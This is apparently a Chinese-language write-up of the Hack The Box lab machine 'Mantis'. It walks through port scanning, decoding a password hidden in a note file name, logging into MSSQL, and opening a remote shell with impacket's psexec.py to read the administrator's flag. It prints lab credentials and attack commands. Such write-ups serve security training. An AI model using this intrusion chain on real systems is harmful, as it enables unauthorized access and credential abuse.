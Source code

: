 ```yaml
---
title: mantis（敏感信息泄露+445端口连接）
categories:
- training
tags:
- training
---
```


## 10.10.10.52

[使用脚本扫描端口](https://whale3070.github.io/scan/2020/01/17/06-x/)


![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/1.PNG)

cat 10.10.10.52.txt

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/2.PNG)

```
53/tcp    open   domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-17 11:19:45Z)
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
1337/tcp  open   http         Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
1433/tcp  open   ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-01-17T09:04:27
|_Not valid after:  2050-01-17T09:04:27
|_ssl-date: 2020-01-17T11:20:51+00:00; +31s from scanner time.
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
8080/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open   mc-nmf       .NET Message Framing
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49157/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
50255/tcp open   ms-sql-s     Microsoft SQL Server 2014 12.00.2000
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-01-17T09:04:27
|_Not valid after:  2050-01-17T09:04:27
|_ssl-date: 2020-01-17T11:20:51+00:00; +31s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 43m22s, deviation: 1h53m23s, median: 30s
| ms-sql-info:
|   10.10.10.52:1433:
|     Version:
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery:
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2020-01-17T06:20:42-05:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-01-17T11:20:43
|_  start_date: 2020-01-17T09:04:01

```
操作系统：
445端口
`Windows Server 2008 R2 Standard 7601 Service`

## web
[使用脚本扫描web目录](https://whale3070.github.io/scan/2019/07/31/11-x/)

```
http://10.10.10.52:1337/
http://10.10.10.52:593
http://10.10.10.52:8080/Users/Account/LogOn?ReturnUrl=%2F
```   

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/5.PNG)

http://10.10.10.52:1337/secure_notes
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/6.PNG)
http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/7.PNG)
从文件内容可以得知用户名、数据库名

文件名包含一串密文`NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx`

`echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d`

将其base64解码以后，得到`6d2424716c5f53405f504073735730726421`

`echo -n 6d2424716c5f53405f504073735730726421 | wc -c`
查看密文的长度，是36位。如果密文长度是32位，说明可能是MD5加密。

`echo -n 6d2424716c5f53405f504073735730726421 | xxd -ps -r`将其16进制解码就可以得到我们的密码`m$$ql_S@_P@ssW0rd!`

## 十六进制与xxd
xxd是十六进制转储工具

使用方法：`xxd 文件名`

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/8.PNG)

## 连接数据库
dbeaver 是一个通用数据库，使用该客户端，连接目标机器的数据库。

注意之前的扫描结果，mssql版本： Microsoft SQL Server 2014 12.00.2000
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/9.PNG)



```
地址：10.10.10.52
数据库名：orcharddb
用户名： admin
密码：m$$ql_S@_P@ssW0rd!
```

下载驱动，然后点测试连接。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/10.PNG)


![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/11.PNG)


```
locate psexec.py
python /usr/share/doc/python-impacket/examples/psexec.py htb.local/James@10.10.10.52 cmd.exe
J@m3s_P@ssW0rd!
```
 psexec 是一个类似于telnet的连接软件，通过psexec连接445端口。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/12.PNG)

```
cd C:\users\Adminitrator
cd C:\users\Administrator\Desktop
type root.txt
```

## 总结
- 学习了psexec的用法
- 一条命令，关闭进程`pgrep openvpn | xargs kill -s 9`